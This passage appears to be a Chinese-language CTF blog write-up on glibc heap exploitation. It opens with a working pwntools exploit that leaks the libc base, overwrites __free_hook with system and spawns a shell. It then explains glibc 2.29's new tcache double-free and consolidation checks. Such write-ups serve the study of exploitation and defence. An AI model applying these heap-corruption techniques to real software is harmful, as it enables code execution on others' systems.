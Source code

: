 ```python
add(0x132)#1
add(0x4f8)#2
add(0x200)#3
free(0)
free(1)
add(0x138,"\x00"*0x130+p64(0xc90))#0
free(2)
# 0,3 is used
add(0x1e0-8)#0x55ebf0ca2bb0
add(0x218)
cmd(3)
p.readuntil("1 : ")
base=u64(p.readuntil(" ")[:-1].ljust(8,'\x00'))-(0x7fea9ffc0ca0-0x7fea9fc12000)-(0x7ffff7a21000-0x7ffff79e4000)
log.warning(hex(base))
libc=ELF("./timu").libc
libc.address=base
add(0x6f0)#4
add(0x30,"\x00"*0x8+p64(0x111)+p64(libc.sym['__free_hook'])+'\x00'*0x18)#5
add(0x100,"/bin/sh\n")#6
free(4)
add(0x100,p64(libc.sym['system'])+"\n")
free(6)
p.interactive()
```

# 2.29
[binary][2]
多了许多check,拿着2.27的libc differ 了一下发现改变挺大的这里就主要谈一下做题的时候遇到的，有机会再去系统地分析一遍.
## _int_free
简单分析一下libc-2.29相比2.27 _int_free的一些区别.
### UNLINK
`unlink`终于不是一个宏了..成了一个函数..恭喜`unlink_chunk`,但是看了一圈发现逻辑上没啥大变化.
### Double free detected in tcache 2
在tcache里面加了个double_free的检测,遍历list查看是否已经有当前的chunk
```c
if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
```
这导致`double_free`利用起来没有2.27	上那么顺利不过问题不大,fast_bin内依然是没有检测的.或者通过其他方法做tcache hijacking还是可以的
## consolidate backward
```c
    /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

[0]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[1]: https://github.com/n132/Watermalon/tree/master/QCTF_2018/babyheap
[2]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/babeheap229